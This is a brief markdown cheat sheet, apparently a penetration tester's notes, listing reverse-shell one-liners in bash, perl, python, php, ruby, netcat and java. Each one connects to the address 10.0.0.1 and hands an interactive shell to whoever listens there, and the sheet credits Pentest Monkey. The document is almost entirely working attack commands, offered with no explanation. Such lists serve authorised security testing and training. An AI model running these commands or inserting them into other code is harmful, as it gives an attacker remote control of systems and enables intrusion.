 # Notes Cheat sheet

## Reverse Shells

---
* bash
```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

* perl

```perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
* python
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
* php
```php
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
* ruby
```ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
* netcat
```
nc -e /bin/sh 10.0.0.1 1234
```
* java
```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
---
*Shells Info for Pentest Monkey*
[Pentest Monkey](http://pentestmonkey.net "Web Pentest-Monkey")
